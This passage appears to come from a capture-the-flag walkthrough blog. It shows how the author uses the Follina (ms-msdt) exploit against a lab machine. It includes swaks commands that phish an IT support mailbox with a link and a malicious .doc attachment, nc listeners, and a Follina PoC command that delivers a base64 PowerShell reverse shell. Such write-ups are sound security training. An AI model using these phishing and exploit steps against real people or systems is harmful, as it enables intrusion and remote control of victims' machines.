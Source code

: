-   **How it's triggered**:
    -   Can be invoked manually by users or automatically through specific command-line arguments.
    -   In the case of the Follina exploit, it was invoked through a URL protocol (e.g., `ms-msdt:`) embedded in a malicious Office document.


### Testing if we can make `itsupport` click an emailed link using `swaks`: {#testing-if-we-can-make-itsupport-click-an-emailed-link-using-swaks}

-   **I use swaks to send an email to the** `itsupport@outdated.htb`:
    -   `swaks --to itsupport@outdated.htb --from bloodstiller@bloodstiller.com --server mail.outdated.htb --body "http://10.10.14.43/" --header "Subject: Testing"`
    -   {{< figure src="/ox-hugo/2024-10-10-150005_.png" >}}
    -   I put the IP of my attack box as a link within the body and setup a listener on host.
        -   `nc -nvlp 80`
    -   I do this as I want to see if we send a link will it be clicked.

-   **I get a connection back to my listener once the email is sent**:
    -   {{< figure src="/ox-hugo/2024-10-10-145936_.png" >}}
    -   This verified that if a link is sent to that email address the link will be clicked.


### Trying to get a reverse shell using the `Follina` exploit: {#trying-to-get-a-reverse-shell-using-the-follina-exploit}

-   This section includes all my troubleshooting when I couldn't get things started/moving forward. I want to leave this in as a lot of walkthroughs' are like, so I did A, B, C and that's how I got root. Where as it's never that simple, for me at least, and leads to unrealistic expectations for people just trying to get into the industry/CTF's. So I leave almost everything in, bones and all.


#### Trying to get a reverse shell using `Follina` and a malicious `.doc`: {#trying-to-get-a-reverse-shell-using-follina-and-a-malicious-dot-doc}

-   **I download john-hammonds follina POC**:
    -   <https://github.com/JohnHammond/msdt-follina?tab=readme-ov-file>

-   **Create a base64 encoded reverse shell using** <https://revshells.com>:
    -   {{< figure src="/ox-hugo/2024-10-10-155640_.png" >}}

-   **Run the exploit generator &amp; passing in my base64 encoded string**:
    -   `python3 follina.py -i tun0 -p 9999  -c "powershell -e <base64EncodedString>"`
    -   {{< figure src="/ox-hugo/2024-10-10-155503_.png" >}}

-   **The exploit by default starts the listener too to serve the malicious** `.html`:
    -   {{< figure src="/ox-hugo/2024-10-10-155708_.png" >}}

-   **I start my listener on** `443`:
    -   `nc -nvlp 443`

-   **I use swaks to send the malicious document**:
    -   `swaks --to itsupport@outdated.htb --from bloodstiller@bloodstiller.com --server mail.outdated.htb --body "http://10.10.14.43/" --header "Subject: Testing" --attach follina.doc`
    -   {{< figure src="/ox-hugo/2024-10-10-155753_.png" >}}
